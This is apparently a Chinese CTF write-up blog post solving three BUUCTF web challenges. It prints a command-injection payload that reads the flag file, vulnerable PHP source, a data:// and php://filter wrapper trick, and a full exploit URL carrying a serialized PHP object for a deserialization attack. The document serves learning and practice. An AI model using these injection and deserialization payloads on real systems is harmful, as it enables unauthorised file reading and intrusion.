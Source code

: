 # buu摸鱼日记（4）

## [ACTF2020 新生赛]Exec

这比我预料的还简单

payload 127.0.0.1 & find / -name "flag*"

就会发现更目录里就有个flag

cat flag秒了



## [ZJCTF 2019]NiZhuanSiWei

一开始看到这个题

```php
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

就去搜索file_get_contents()

https://www.php.net/manual/zh/function.file-get-contents.php

于是我就开始大胆尝试（~~自作聪明~~）

文档里面指出是可以用url的，我就在我的vps上写了一个socket，访问就会回复welcome to the zjctf

然而，并没有什么卵用(太真实了)

没了思路的我就只好去看wp了

首先，利用data伪协议进行输入。

https://juejin.im/post/5d79b49551882539aa5ad496

data伪协议就可以封装一个数据，比如在图片的地方去除http请求

很轻松就过了if



第二个

显然不能直接读取flag.php，只好去读useless.php，很自然的用php://filter

读取出来里面是个对象，更加自然的想到这个是个反序列化

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

里面就$file一个变量，直接写一个序列化输入进去

```php
<?php 
class Flag{  //flag.php  
    public $file="flag.php";  

}  
	$a = new Flag();
	echo(serialize($a));
?> 
```

然后

```url
http://f6895169-c0dc-4932-b323-bf79dd80d58c.node3.buuoj.cn/?text=data://text/plain,welcome%20to%20the%20zjctf&file=useless.php&password=O:4:%22Flag%22:1:{s:4:%22file%22;s:8:%22flag.php%22;}
```

flag在注释里

## [ACTF2020 新生赛]BackupFile

走弯路了

本来应该秒的

拿dirsearch扫了半天，无果

随手打了个index.php.bak

草，就下载下来源码了

 穿了个参数就秒了（ACTF还蛮简单的）